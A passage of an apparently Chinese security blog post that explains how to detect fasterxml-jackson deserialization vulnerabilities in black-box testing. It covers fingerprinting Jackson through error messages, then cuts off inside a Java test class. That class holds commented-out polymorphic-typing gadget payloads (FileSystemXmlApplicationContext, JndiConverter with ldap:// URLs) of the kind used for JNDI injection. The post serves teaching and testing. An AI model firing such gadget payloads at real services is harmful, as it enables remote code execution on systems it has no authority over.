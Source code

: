 #  如何黑盒检测fasterxml-jackson反序列化漏洞

原创 conman  [ conman ](javascript:void\(0\);)

**conman** ![]()

微信号 gh_1ccd784c4992

功能介绍 分享信息安全相关的知识

____

___发表于_

收录于合集

#web安全 14 个

#网络安全 18 个

#反序列化 2 个

## 序

前段时间，fasterxml jackson又出新的反序列化的payload了，看看各家的通告。心里想着，啥时候能测到一个反序列化漏洞。

网上看到的分析，大部分都是分析payload的原理。但是作为一个只能黑盒盲测的选手，如何找到并判断出jackson漏洞呢？

## 识别jackson

由于是黑盒，我们需要猜测后端有没有用jackson。

### application/json

一个可能的点是，`Content-Type: application/json`，后端会处理json数据。但是后端用的什么来处理的，还需要判断。

### com.fasterxml.jackson

我们在post数据中随便输入数据`aaa`，发现后端返回的错误信息里面显示`com.fasterxml.jackson`，可以初步判断使用了jackson。

## 瞎测

由于之前没有碰到过jackson的实际案例，去网上搜索了一些分析文章，随便找了几个payload来测试，一顿复制粘贴。全部报错。

    
    
    Exception in thread "main" com.fasterxml.jackson.databind.exc.MismatchedInputException: Cannot deserialize instance of `***` out of START_ARRAY token  
    

## 深入理解

    
    
    public class TestMain {  
        public static void main(String args[]) throws IOException {  
            ObjectMapper mapper = new ObjectMapper();  
            mapper.enableDefaultTyping();  
            //String json="{\"age\":10,\"name\":\"l1nk3r\",\"cc\":\"dd\",\"sex\":[\"com.mytest.MySex\",{\"sex\":100}]}";  
            //String json="[\"org.springframework.context.support.FileSystemXmlApplicationContext\",{\"sex\":100}]";  
            //String json="{\"age\":10,\"name\":\"l1nk3r\",\"aa\":[\"org.springframework.context.support.FileSystemXmlApplicationContext\",{\"sex\":100}]}";  
            //String json = "[\"org.apache.xbean.propertyeditor.JndiConverter\", {\"asText\":\"ldap://localhost:1389/ExportObject\"}]";  
            //String json="{\"age\":10,\"name\":\"l1nk3r\",\"aa\":[\"org.apache.xbean.propertyeditor.JndiConverter\", {\"asText\":\"ldap://127.0.0.1:1389/Obj\"}]}";  